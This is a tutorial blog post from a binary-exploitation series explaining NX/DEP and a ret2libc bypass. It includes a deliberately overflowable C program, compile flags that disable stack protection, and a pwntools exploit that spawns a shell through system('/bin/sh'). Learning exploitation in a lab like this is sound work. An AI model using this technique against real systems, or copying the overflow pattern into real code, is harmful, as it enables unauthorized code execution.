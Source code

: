 ```yaml
---
title: "Pwn 0x02: NX Bypass"
author: "Signore"
date: 2022-08-22
summary: "Stack isn't allowing code execution? Let's bypass it"
description: ""
categories: [""]
tags: ["pwn", "buffer overflow", "ret2libc"]
series: ["Binary Exploitation Adventures"]
keywords: ["pwn", "binary", "memory", "x32", "x64", "gdb", "memory corruption", "binary exploitation", "exploit development", "ret2libc", "return2libc", "ret2system"]
ShowToc: true
cover:
  image: "images/cover-binexp-02.png"
  caption: "cover"

---
```


In this post we are going to learn an exploit mitigation technique: what it is and how to bypass it.

New to the series? check out my previous posts [here](/blog/series/binary-exploitation-adventures).

## No Execute

Last time, we put shellcode on the stack and called it to get code execution. <br>
In modern binaries, usually what happens is that the stack is not executable, means we can put something on the stack but it will only be considered a piece of data by the program and not some cpu instruction. This technique is called **NX** (No eXecute) or **DEP** (Data Execution Prevention).

Although the data on the stack is not executable, making a function call and passing required/desired arguments is still allowed. We're going to make use of this fact.

When we are writing code for a program, we don't write code for `print` and such functions. They are said to be built-ins. When we compile the program, the compiler links the program to a library (shared object) in which it would be able to find definitions of those functions during execution. <br>
Such programs are termed as Dynamically Compiled which we mostly deal with because this process saves the coder a lot of time and effort, while the opposite are Statically Compiled programs which we won't talk about for now.

Most of the C programs - whether it's x86 or x64 - rely on **libc**, the default C library.
<details><summary>We can see the shared objects (libraries) being used by a program, with the <code>ldd</code> command</summary>

{{< terminal title="Terminal" >}}
![](img00.png)
{{< /terminal >}}
</details><br>

Since during the program execution, the program is making use of library functions, so the library (libc) is mapped in memory. We can abuse this by finding memory addresses and making calls to other functions present in the library as per our need (or as per desire ;)

`print`, `write`, `system`, `exit`, etc are some of the functions present in the libc out of which, for now, we are most interested in `system`.

### Setup

Using the code from previous exercise:
{{< terminal title="vulnerable.c" >}}
```c
#include <stdio.h>
#include <unistd.h>

int overflow(){
    char buffer[500];
    int userinput;
    userinput = read(0, buffer, 700);
    printf("\nUser provided %d bytes. Buffer content is: %s\n", userinput, buffer);
    return 0; 
}

int main(int argc, char *argv[]){
    overflow();
    return 0;
}
```
{{< /terminal >}}

Compile with the command:
{{< terminal title="Terminal" >}}
```shell
gcc -m32 -fno-stack-protector vulnerable.c -o vulnerable
```
{{< /terminal >}}

Notice that we are not using the `-z execstack` flag anymore, which makes the stack executable.

Our program has following protections:
{{< terminal title="Terminal" >}}
![](img01.png)
{{< /terminal >}}

Before proceeding any further, remember to disable ASLR.

## Exploitation

We find the offset of EIP to be 516. You know how, right?

We want to execute `system("/bin/sh")` for which we are going to overwrite the EIP with the address of the `system` function, and then we'll give the return address which can be anything (e.g JUNK) but we will keep it to be the address of the `exit` function so that our program terminates nicely. Lastly, we will give the function arguments which, in present case, would be the address of the `/bin/sh` string. <br>
Remember stack alignment? revise [here](/blog/posts/pwn-0x01-buffer-overflow/#the-stack)

<details><summary>With the <code>vmmap</code> command in gdb, we can confirm that the libc/certain sections of libc are loaded into the program</summary>

{{< terminal title="Terminal" >}}
![](img02.png)
{{< /terminal >}}
</details><br>

Let's get our required memory addresses with gdb:
{{< terminal title="Terminal" >}}
![](img03.png)
{{< /terminal >}}

Now that we have all we needed, let's construct our exploit:
{{< terminal title="exploit.py" >}}
```py
from pwn import *

exe = "./vulnerable"
elf = context.binary = ELF(exe,checksec=False)

system_addr = 0xf7dff040
exit_addr = 0xf7df1990
binsh_addr = 0xf7f46338

padding = "A"*516

payload = flat(padding, system_addr, exit_addr, binsh_addr)

#write("payload",payload)
io = process(exe)
io.sendline(payload)
io.interactive()
```
{{< /terminal >}}

Let's run the exploit:
{{< terminal title="Terminal" >}}
![](img04.png)
{{< /terminal >}}
And.. Yea! we got our shell :fire:
